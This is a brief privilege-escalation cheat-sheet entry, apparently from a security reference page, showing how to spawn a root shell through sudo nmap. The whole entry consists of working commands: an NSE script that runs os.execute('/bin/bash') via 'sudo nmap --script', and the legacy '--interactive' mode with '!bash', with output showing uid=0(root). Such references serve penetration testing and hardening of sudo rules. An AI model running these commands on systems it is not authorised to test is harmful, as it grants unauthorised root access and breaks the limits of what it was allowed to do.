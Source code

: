 # Network Mapper

## Spawn Shell

Keep in mind that input echo is disabled so it's kinda like blind commands.

```
user@debian:~$ TF=$(mktemp)
echo 'os.execute("/bin/bash")' > $TF
sudo nmap --script=$TF
```

Legacy nmap versions have interactive flag.

```
user@debian:~$ sudo nmap --interactive
nmap> !bash

root@debian:/home/user# id
uid=0(root) gid=0(root) groups=0(root)
```